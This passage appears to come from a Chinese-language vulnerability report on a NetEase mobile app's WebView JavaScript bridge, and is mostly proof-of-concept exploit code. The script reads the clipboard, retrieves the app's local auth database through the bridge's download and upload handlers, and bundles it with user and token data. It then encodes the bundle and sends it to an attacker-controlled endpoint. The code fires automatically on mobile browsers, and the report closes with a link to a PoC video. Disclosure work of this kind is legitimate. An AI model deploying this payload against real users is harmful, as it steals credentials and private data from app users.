                 }
            )

            WebViewJavascriptBridge.callHandler("getClipboardData", 
                {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{type:"text/plain"}},
                function(e){
                    if(e.code==200){
                        clipData = e.result;
                        console.log("获取粘贴板成功！！！")
                    }
                }
            )

            //下载文件/图片，可以是本地路径，返回文件id，高危！！！！！！
            WebViewJavascriptBridge.callHandler("downloadImage", 
                {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{url:"/data/data/com.netease.gl/databases/auth",isShowProgressTips:1}},
                function(res){
                
                    console.log("upload file:", "/data/data/com.netease.gl/databases/auth")
                    if(res.code==200){
                        var localId = res.result.localId;
                        //上传文件/图片，可以是本地路径，高危！！！！！配合上一步的文件id，完成文件上传，上传到网易云中
                        WebViewJavascriptBridge.callHandler("uploadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:localId,isShowProgressTips:1,usageType:1}},function(res2){
                            if(res2.code==200){
                                var fileData = res2.result
                                console.log("获取数据库文件成功！！！")

                                var finalData = {
                                    usrInfo:usrInfo,
                                    tokenInfo:tokenInfo,
                                    clipData:clipData,
                                    fileData:fileData
                                }
                                // send data
                                var encoded = encode(JSON.stringify(finalData))
                                justSend(api_burp + '?data=' + encoded)
                            }
                            })
                    }
                })
            
        }
        // 判断pc端还是手机端
        const isMobile = /iPhone|iPad|iPod|Android/i.test(navigator.userAgent);
        if (isMobile) {
            /* your code here */
            sendData()
        }       

    完整利用过程请看POC视频

### 漏洞证明
请提供截图或视频
视频链接：链接：https://pan.baidu.com/s/1ujV4aKjagPCMNhhxELePgg 提取码：1314
